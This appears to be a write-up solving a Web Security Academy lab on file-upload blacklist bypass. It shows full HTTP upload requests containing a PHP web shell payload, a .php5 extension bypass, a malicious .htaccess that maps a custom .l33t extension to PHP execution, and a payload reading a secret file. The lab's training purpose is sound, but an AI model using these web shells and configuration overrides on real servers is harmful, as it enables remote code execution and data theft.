







# Web shell upload via extension blacklist bypass

## Lab Description :


## Overview :
One of the more obvious ways of preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like .php. The practice of blacklisting is inherently flawed as it's difficult to explicitly block every possible file extension that could be used to execute code. Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as .php5,.shtml,.oho4,.php7,.phtml and so on.

## Solution :
Login as wiener to access the upload functionality.

Upload a .php file with the following payload ``<?php echo system($_GET['command']); ?>``

THe request sent is as follows,
```html
POST /my-account/avatar HTTP/2
Host: 0ac60088039dd25f82402e9300fb007e.web-security-academy.net
Cookie: session=GnGAzOUPjzGgNytcTKzcIplgL1T4H38L
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------35474142021105913272615045188
Content-Length: 524
Origin: https://0ac60088039dd25f82402e9300fb007e.web-security-academy.net
Referer: https://0ac60088039dd25f82402e9300fb007e.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="user"

wiener
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="csrf"

jLshXykyOmSzsk0t4U8ptEGdgN6k5NUE
-----------------------------35474142021105913272615045188--
```
We get an error response stating that .php files are not allowed to be uploaded.



This is maybe because in the body of the request we have a filename="file.php" parameter. From this we may assume that the server identifies it as a .php file extension and rejects the upload request.

Byassing the extension bypass -
In the same request we can give other types of php like php5/php4 etc..,

Modify the filename= parameter with the filename extension as .php5.

```
POST /my-account/avatar HTTP/2
Host: 0ac60088039dd25f82402e9300fb007e.web-security-academy.net
.
.
.
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="avatar"; filename="file.php5"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="user"

wiener
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="csrf"

jLshXykyOmSzsk0t4U8ptEGdgN6k5NUE
-----------------------------35474142021105913272615045188--
```
This time we get file successfully uploaded message in the response response.



But still get nothing in response when we try to access the file.



Means the server is not executing .php files.

Overriding server configuration -
Now we need to override the server's configuration. The server that we have here is Apache server. The apache server uses .htaccess file for directory configurations.(ie) which files should be executed etc..,

Apache servers, will load a directory-specific configuration from a file called .htaccess if one is present.

Now to override the .htaccess file , in the same POST request to upload the image we have to make two changes.

Change the filename to .htaccess
Replace the payload with this header : AddType application/x-httpd-php .l33t
AddType application/x-httpd-php .l33t
The line AddType application/x-httpd-php .l33t added to the .htaccess file tells the web server (Apache) to treat files with a .l33t extension as PHP files. The AddType directive associates a given file extension with a specific MIME type, in this case, it associates the .l33t extension with the MIME type application/x-httpd-php, which is typically used for PHP files.

When this line is injected into the .htaccess file and a file with a .l33t extension is requested from the web server, Apache will handle it as if it were a PHP file and try to execute the embedded PHP code within it.

So the request looks like this
```
POST /my-account/avatar HTTP/2
.
.
.
-----------------------------9376413343136937474094370186
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/x-php

AddType application/x-httpd-php .l33t

-----------------------------9376413343136937474094370186
Content-Disposition: form-data; name="user"
.
.
```
Now we get a 200 OK response saying .htaccess file has been sucessfully uploaded. Thus we have now overridden the server's configuration.



If we upload a file with .l33t extension, then the server will interpret it as .php file and execute it.
```
POST /my-account/avatar HTTP/2
.
.
-----------------------------41023172003987920362610215064
Content-Disposition: form-data; name="avatar"; filename="helo.l33t"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------41023172003987920362610215064
Content-Disposition: form-data; name="user"
.
.
```
If we send this request, the file is now uploaded succesfully.



Now fetch the image at /files/avatars/helo.l33t to get carlos's secret key.



Submit he key to solve the lab.


#### Visit The Next Page For The Next Level :)
